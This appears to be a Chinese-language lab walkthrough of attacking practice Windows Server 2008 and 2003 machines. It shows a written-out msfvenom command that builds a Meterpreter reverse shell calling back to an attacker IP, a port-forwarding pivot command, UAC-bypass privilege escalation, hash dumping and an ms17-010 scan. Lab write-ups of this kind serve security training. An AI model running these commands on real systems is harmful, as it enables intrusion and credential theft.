 ## server 2008A

在kali下首先发现目标

```
arp-scan -l
```

![image-20200603142735256](wp-photo/a.png)

确定目标ip：172.20.10.148，目标有webshell，直接蚁剑链接

![image-20200603150009428](wp-photo/image-20200603150009428.png)

然后用mscvenom生成反弹shell

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.20.10.150 LPORT=4444 -f exe -o test.exe
```

生成后上传到目标机内

![image-20200603150035215](wp-photo/image-20200603150035215.png)

在攻击机内运行msfconsole，用于监听目标反弹过来的shell

![image-20200603150403083](wp-photo/image-20200603150403083.png)

在目标机上运行test.exe，就可以在攻击机上获取到shell

![image-20200603150632673](wp-photo/image-20200603150632673.png)

尝试getsystem，发现失败

![image-20200603150927512](wp-photo/image-20200603150927512.png)

尝试获取hash，提示没有权限

![image-20200603151114297](wp-photo/image-20200603151114297.png)

那么现在要做的就是提权了

先将当前session放到后台，使用uac提权，首先查看一下需要设置的参数

![image-20200603151417624](wp-photo/image-20200603151417624.png)

设置好session之后，run，重新起了一个session

![image-20200603151512576](wp-photo/image-20200603151512576.png)

这个时候再getsystem就可以直接提权了

![image-20200603151554119](wp-photo/image-20200603151554119.png)

抓一下hash

![image-20200603152304009](wp-photo/image-20200603152304009.png)

在线解一下可以得到密码

![image-20200603152433167](wp-photo/image-20200603152433167.png)

## server 2008B

这个是和2008A在同一内网下的主机，不通外网，需要进行代理

我们现在已经获取了2008A的高权限shell，内网扫描一下，加一下路由（期间kali崩了，换了parrot

![image-20200605170654577](wp-photo/image-20200605170654577.png)

然后内网常规操作，先扫一波ms17-010

![image-20200605170843100](wp-photo/image-20200605170843100.png)

由于内网靶机2008B不能互通，所以在2008A上进行端口转发

此时架构如下，说来有点绕，此时的B是2008A，C是2008B

![image-20200605194305600](wp-photo/image-20200605194305600.png)

大概需要

1. 生成目标机器后门，反连Server设置成B的IP，端口4455；
2. B上开启端口转发，将本地4455的流量转发到A的4466端口，运行EXP；
3. A上开启MSF监听本机4466端口；
4. A上成功得到来自B机器任意端口的Meterpreter Session；

首先在2008A上进行代理

```
ew_for_Win.exe -s lcx_tran -l 4455 -f 172.20.10.150 -g 4466
```

![image-20200605200153884](wp-photo/image-20200605200153884.png)

然后直接打，一打链接就断，失败，到此结束，遛了遛了



## server 2003A

账号：cs

密码：空密码

登录进去传个test.exe，msfconsole接收

![image-20200603163144361](wp-photo/image-20200603163144361.png)

尝试直接getsystem，失败

![image-20200603163213949](wp-photo/image-20200603163213949.png)

尝试提权，搜索一下可用exp

```
use post/multi/recon/local_exploit_suggester
```

![image-20200603164045456](wp-photo/image-20200603164045456.png)

随便选一个，直接提权

![image-20200603164225593](wp-photo/image-20200603164225593.png)

抓一下hash

![image-20200603164310342](wp-photo/image-20200603164310342.png)

cmd5解一下，发现都是付费的，告辞

